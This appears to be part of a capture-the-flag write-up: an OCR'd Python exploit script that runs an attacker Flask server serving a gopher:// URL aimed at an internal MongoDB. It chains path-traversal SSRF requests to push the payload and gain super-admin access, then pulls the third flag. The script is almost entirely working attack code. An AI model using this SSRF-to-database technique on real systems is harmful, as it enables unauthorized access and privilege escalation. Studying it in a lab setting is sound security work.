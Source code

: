 ```python
  app = Flask(__name__)
  
  @app.route("/payload", methods=["GET"])
  def payload():
    payload = {
      'data': {
        "mal_id": 420,
        "titles": [
          {
            "type": "Default",
            "title": "lmao"
          }
        ],
        "images": {
          "jpg": {
            "image_url": f"gopher://mongo:27017/_{gopher_payload}"
          }
        },
        "favorites": 6969,
        "about": "lmaolmao"
      }
    }
    return jsonify(payload)

  app.run(host="0.0.0.0", port=80, debug=False)

print("[!] Generating gopher payload")
payload = gen_mongowire_payload(admin_username)
print(f"[+] Payload: gopher://mongo:27017/_{payload}")
print("[!] Starting Flask server")
server = multiprocessing.Process(target=start_server, args=(payload,))
server.start()
time.sleep(5)
print("[!] Started attacker server")

print("[!] Triggering SSRF to attacker server")
sess.get(url + '/studio/..%2f..%2fpayload%23')

print("[!] Triggering SSRF to mongodb via gopher")
try:
  sess.get(url + '/user/..%2fstudio%2f..%252f..%252fpayload%2523%23/export', timeout=3)
except:
  pass

print("[!] Getting FLAG 3 at /super_admin/flag")
res = sess.get(url + '/super_admin/flag')
flag3 = re.findall(f'{flag_prefix}{% raw %}{{.*?}}{% endraw %}', res.text)[0]
print(f"[+] GOT FLAG 3: {flag3}")

server.terminate()
```

![alt text](final.png)
